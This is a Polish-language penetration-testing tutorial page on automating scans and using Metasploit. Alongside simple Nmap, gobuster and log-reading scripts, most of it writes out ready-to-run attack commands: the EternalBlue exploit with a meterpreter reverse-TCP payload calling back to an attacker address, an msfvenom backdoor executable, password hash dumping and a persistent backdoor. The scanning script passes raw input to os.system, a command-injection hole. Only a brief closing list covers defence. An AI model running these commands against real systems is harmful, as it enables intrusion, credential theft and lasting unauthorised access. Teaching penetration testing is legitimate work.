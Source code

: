 ```yaml
---
id: "automatyzacja-eksploatacja"
title: "🤖 Automatyzacja i eksploatacja"
sidebar_position: 13
---
```


# 🤖 Automatyzacja i eksploatacja

Automatyzacja testów penetracyjnych pozwala zwiększyć efektywność pracy pentestera, eliminując powtarzalne zadania i przyspieszając proces wykrywania podatności. W tej sekcji omówimy, jak pisać własne skrypty do pentestów oraz jak skutecznie korzystać z **Metasploit Framework**.

---

## ⚙️ Automatyzacja testów penetracyjnych

### **1️⃣ Jak pisać własne skrypty do pentestów?**
Automatyzacja testów może obejmować:
- **Skanowanie sieci**
- **Automatyczne wykrywanie podatności**
- **Eksploatację znanych luk**
- **Analizę logów i danych zebranych podczas testów**

#### **1.1 Tworzenie skryptu w Pythonie do automatycznego skanowania Nmap**
```python
import os

target = input("Podaj adres IP lub domenę: ")
os.system(f"nmap -A -p- {target}")
```
Zapisz plik jako `scan.py` i uruchom:
```bash
python3 scan.py
```

#### **1.2 Automatyczne wyszukiwanie ukrytych katalogów w Bash**
```bash
#!/bin/bash
TARGET=$1
WORDLIST=/usr/share/wordlists/dirb/common.txt
echo "Skanowanie: $TARGET"
gobuster dir -u $TARGET -w $WORDLIST -x php,html,txt
```
Zapisz plik jako `dirscan.sh`, nadaj uprawnienia i uruchom:
```bash
chmod +x dirscan.sh
./dirscan.sh http://example.com
```

#### **1.3 Automatyczna analiza logów HTTP**
```python
with open("access.log", "r") as file:
    for line in file:
        if "admin" in line or "login" in line:
            print(line)
```

---

## 🔥 Metasploit – podstawy i zaawansowane funkcje

Metasploit to jedno z najpotężniejszych narzędzi do eksploitacji systemów.

### **2️⃣ Podstawowe komendy w Metasploit**

#### **2.1 Uruchamianie Metasploit**
```bash
msfconsole
```

#### **2.2 Wyszukiwanie exploitów**
```bash
search smb
```

#### **2.3 Wybieranie exploita**
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

#### **2.4 Konfiguracja exploita**
```bash
set RHOSTS 192.168.1.10
set LHOST 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
```

#### **2.5 Uruchomienie ataku**
```bash
exploit
```

---

### **3️⃣ Zaawansowane techniki w Metasploit**

#### **3.1 Automatyczne wykrywanie podatności (db_nmap)**
```bash
db_nmap -A -p- 192.168.1.0/24
```

#### **3.2 Tworzenie backdoora w Metasploit**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > backdoor.exe
```

#### **3.3 Post-Exploitation: Pobranie haseł**
Po uzyskaniu dostępu do systemu można spróbować przechwycić hasła:
```bash
meterpreter > hashdump
```

#### **3.4 Tworzenie persistent backdoor**
```bash
run persistence -X -i 10 -p 4444 -r 192.168.1.100
```
Dzięki temu po restarcie maszyny backdoor nadal będzie aktywny.

---

## 🔐 Jak zabezpieczyć się przed automatycznymi atakami?
✅ **Monitorowanie ruchu sieciowego i nietypowych skanowań**
✅ **Blokowanie narzędzi typu Metasploit w systemach produkcyjnych**
✅ **Regularne aktualizacje systemów i patchowanie znanych podatności**
✅ **Wykrywanie i blokowanie backdoorów za pomocą EDR (Endpoint Detection & Response)**

---

Automatyzacja i Metasploit to kluczowe narzędzia w arsenale pentestera. Kolejnym krokiem będzie **Reverse Shell i Post-Exploitation**! 🚀
